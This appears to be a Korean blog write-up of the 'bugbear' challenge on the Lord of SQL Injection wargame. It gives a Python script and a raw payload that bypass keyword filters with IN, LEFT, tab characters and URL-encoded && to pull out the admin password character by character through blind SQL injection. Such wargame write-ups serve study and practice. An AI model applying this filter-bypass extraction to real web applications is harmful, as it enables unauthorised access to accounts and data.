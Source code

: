 또한 and를 우회하기 위해서는 `&&` 기호가 필요한데 실제 주솟값에 `&` 기호를 사용해보면 파라미터값을 구분하는 기호로 사용되기에 위처럼 아스키코드로 대체해야 한다.

```python
import requests
cookie = {'PHPSESSID':''}
flag = 1


def my_request(uno):
	url = f'https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php?pw=1&no={uno}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res,cnt):
	for i in range(38,127):
		uno = f'1||%09id%09IN%09(\"admin\")%09%26%26%09LEFT(pw,{cnt})%09IN%09(\"{res}'+chr(i)+'\")'
		response = my_request(uno)
		if i == 38:
			continue
		if "Hello admin" in response.text:
			print("I got: ",chr(i))
			return chr(i)

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	cnt = 1
	while flag:
		res += find_pw(res,cnt)
		cnt += 1


if __name__ == "__main__":
	solve()	
```

![image-20220609133125483](../img/image-20220609133125483.png)

`IN` 절을 이용하면서 `=` 기호와 `LIKE` 절을 대체할 수 있었고, `LEFT` 함수로 비밀번호의 제일 왼쪽부터 한자리씩 추론해나갔다.

```
pw=1&no=1||%09id%09IN%09("admin")%09%26%26%09LEFT(pw,1)%09IN%09("0")
```

이런식으로 쿼리를 보낸 셈이다.

![image-20220609133404834](../img/image-20220609133404834.png)



<br><br><br>
